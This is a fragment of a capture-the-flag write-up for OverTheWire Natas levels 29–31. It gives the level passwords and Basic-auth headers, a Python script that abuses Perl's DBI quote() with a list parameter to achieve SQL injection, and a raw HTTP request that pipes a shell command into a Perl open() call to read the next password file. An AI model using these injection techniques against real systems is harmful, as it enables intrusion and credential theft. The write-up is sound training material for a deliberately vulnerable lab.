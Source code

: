 ![/assets/images/natas/Untitled%2018.png](/assets/images/natas/Untitled%2018.png)

natas29:airooCaiseiyee8he8xongien9euhe8b

### lvl 29-30

Command injection

natas30:wie9iexae0Daihohv8vuu3cei9wahf0e

### lvl 30-31

```python
import requests
headers = { 'Authorization':'Basic bmF0YXMzMDp3aWU5aWV4YWUwRGFpaG9odjh2dXUzY2VpOXdhaGYwZQ=='}
url = "http://natas30.natas.labs.overthewire.org/index.pl"

params = {'username':"natas31",'password': ["'a' or 1",5]}                                                                                                                                          
cookies = {}
r = requests.post(url,data=params,cookies=cookies,headers=headers)
print(r.text)

```

Here param is case sensitive and if we send two values it will return a list. And quote checks the optional second parameter and if it is integer, even if the first parameter is string, it will return it without unquoting 

natas31:hay7aecuungiuKaezuathuk9biin0pu1

### lvl 31-23

```python
POST /index.pl?cat%20/etc/natas_webpass/natas32%20| HTTP/1.1
Host: natas31.natas.labs.overthewire.org
Content-Length: 355
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMTpoYXk3YWVjdXVuZ2l1S2FlenVhdGh1azliaWluMHB1MQ==
Upgrade-Insecure-Requests: 1
Origin: http://natas31.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzI73FVSf9Ocjjgr7
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```